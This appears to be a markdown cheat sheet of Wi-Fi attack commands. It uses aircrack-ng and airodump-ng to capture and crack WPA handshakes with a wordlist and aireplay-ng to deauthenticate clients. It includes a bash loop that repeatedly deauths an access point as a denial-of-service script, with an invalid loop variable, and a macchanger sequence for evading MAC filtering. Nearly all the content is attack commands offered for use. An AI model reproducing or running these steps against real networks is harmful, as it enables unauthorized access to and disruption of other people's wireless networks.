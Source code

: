 # Wifi

## aircrack-ng
```console
airmon-ng start [WIRELESS INTERFACE]
```

Note: The interface name might have changed to [WIRELESS INTERFACE]mon. Example: wlan0mon
```console
airodump-ng [WIRELESS INTERFACE]
```

```console
airodump-ng -bssid [AP MAC ADDRESS] -c [AP CHANNEL] --write [FILENAME].cap [WIRELESS INTERFACE]mon
```

```console
aireplay-ng --deauth 100 -a [CLIENT MAC ADDRESS] [WIRELESS INTERFACE]mon
```

```console
aircrack-ng -w [PATH TO WORDLIST].txt [PATH TO HASH FILE].cap
```

## Accesspoint DoS Script
```console
#! /bin/bash

  for 1 in {1..5000}
  
  do
    aireplay-ng --deauth 1000 -a [AP MAC ADDRESS] [WIRELESS INTERFACE]
    sleep 60s
    
done
```

## MAC Filtering Evasion
Scan for wireless acess points:
```console
airodump-ng start [WIRELESS ADAPTER]
```

Note: The interface name might have changed to [WIRELESS INTERFACE]mon. Example: wlan0mon

```console
airodump-ng [WIRELESS ADAPTER]mon
```

Scan for connected devices:

```console
airodump-ng -c 11 -a -bssid [MAC ADDRESS OF ACCESS POINT]
```

MAC address spoofing:

```console
ifconfig [WIRELESS ADAPTER] down
```

```console
macchanger -m [MAC ADDRESS OF CONNECTED DEVICE] [WIRELESS ADAPTER]
```

```console
ifconfig [WIRELESS ADAPTER] up
```
